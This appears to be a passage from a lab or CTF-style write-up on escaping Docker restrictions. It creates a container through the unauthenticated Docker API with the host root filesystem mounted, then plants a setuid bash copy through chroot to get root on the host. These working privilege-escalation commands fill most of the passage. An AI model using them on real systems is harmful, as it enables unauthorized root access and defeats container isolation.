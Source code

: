 ![Alt text](/assets/images/posts/container/11.png){: .align-center}


- Both the capability to mount volumes and the capability to run privileged containers are found within the `HostConfig` attribute
- We can try to bypass that config


By talking to the API directly we can create a container:
```bash
curl http://localhost:2375/v1.42/containers/create -H "Content-Type: application/json" -d '{"Image": "matmats777/debian-mod", "Binds":["/:/host"], "Tty":true, "OpenStdin":true}'
```

---

- We noticed that the container was created despite the volume restriction. 

Let's start it and verify if the volume was indeed created:
```bash
docker ps -a
docker start CONTAINER_NAME
```

Enter the container and prepare for the escalation that we're gonna execute in the host later:
```bash
docker exec -it CONTAINER_NAME bash
cd /host
chroot .
cp /bin/bash /tmp
chmod u+s /tmp/bash
```

Cool, now we can come back to the HOST and escalate privilege with the /tmp/bash created inside the container:
```bash
/tmp/bash -p
```
